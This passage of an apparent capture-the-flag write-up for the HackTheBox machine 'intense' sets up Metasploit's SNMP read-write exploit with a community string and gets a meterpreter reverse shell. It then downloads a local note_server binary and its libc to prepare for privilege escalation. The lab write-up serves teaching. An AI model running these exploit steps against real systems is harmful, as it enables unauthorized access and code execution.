 ```text
msf6 exploit(linux/snmp/net_snmpd_rw_access) > set COMMUNITY SuP3RPrivCom90        
COMMUNITY => SuP3RPrivCom90                                                                                                                                           
msf6 exploit(linux/snmp/net_snmpd_rw_access) > set RHOSTS intense.htb                                                                                                 
RHOSTS => intense.htb                                                                                                                                                 
msf6 exploit(linux/snmp/net_snmpd_rw_access) > set LHOST tun0                      
LHOST => tun0                                                                      
msf6 exploit(linux/snmp/net_snmpd_rw_access) > run
```

And we get a meterpreter shell! Our user is `Debian-snmp`.

## Finding Root

If we go into the home directory of `user`, we see a `note_server` and a `note_server.c`. Running `netstat -tunlp` tells us there is something listening on port 5001.

```text
netstat -tunlp
[...]
tcp        0      0 127.0.0.1:5001          0.0.0.0:*               LISTEN      -
[...]
```

We can dump the files using meterpreter.

```text
meterpreter > download note_server
meterpreter > download note_server.c
```

Let's run the file and check if it's this that runs on port `5001`:

```text
$ netstat -tunlp | grep note_server
tcp        0      0 127.0.0.1:5001          0.0.0.0:*               LISTEN      9264/./note_server
```

Checking the source, it definitely does.

```c
/* Initialize socket structure */ 
bzero((char *) &serv_addr, sizeof(serv_addr));
portno = 5001;
```

As the program is running remotely, binary exploitation seems likely, so I'm going to dump the remote libc and linker as well:

```text
$ ldd note_server
        linux-vdso.so.1 (0x00007ffee41ec000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f12b4eba000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f12b54ae000)
```
